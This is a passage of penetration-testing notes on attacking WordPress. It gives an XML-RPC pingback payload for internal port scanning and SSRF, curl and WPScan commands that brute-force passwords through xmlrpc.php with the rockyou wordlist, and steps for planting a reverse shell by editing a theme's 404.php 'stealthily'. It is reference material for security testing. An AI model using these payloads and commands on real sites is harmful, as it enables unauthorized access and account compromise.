  - Cross-Site Port Attack (XSPA) - call the `pingback.ping` method against itself or other internal hosts on different ports. Open ports or internal hosts can be identified by looking for response time differences or response differences - example XML:  

    ```xml
    <methodCall>
      <methodName>pingback.ping</methodName>
      <params>
        <param>
          <value><string>https://internalhost.local.lan:8080/</string></value>
        </param>
        <param>
          <value><string>https://blog.victim.com/2024/10/some-blog-post/</string></value>
        </param>
      </params>
    </methodCall>
    ```  
    This can be used as well for CSRF and SSRF (limited to only GET parameters).

**Password bruteforce:**

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>USERNAME</value></param><param><value>PASSWORD</value></param></params></methodCall>" https://pentest-experts.com/xmlrpc.php
```  
HTTP statuscode `403` means invalid cendentials.

Using WPScan:

```bash
wpscan --url "https://pentest-experts.com" --password-attack xmlrpc -t 20 -U admin,user1,user2 -P /usr/share/wordlists/rockyou.txt 
```

#### RCE via the Theme Editor 

 - Need usually admin access or some expoit
 - Editing a file like `404.php` of a non used theme is the stealtiest approach  
   Reverse shell can be accessed by:  
   `https://pentest-experts.com/wp-content/themes/THEME-NAME/404.php`
 - Alernative approach would be editing the `404.php` of the active theme and then access a nun existent URL.

## Linux privilege escalation

 - https://roriwa.github.io/pentest/tools/LinPEAS/
 - https://gtfobins.github.io/


## Useful links

 - https://github.com/swisskyrepo/PayloadsAllTheThings
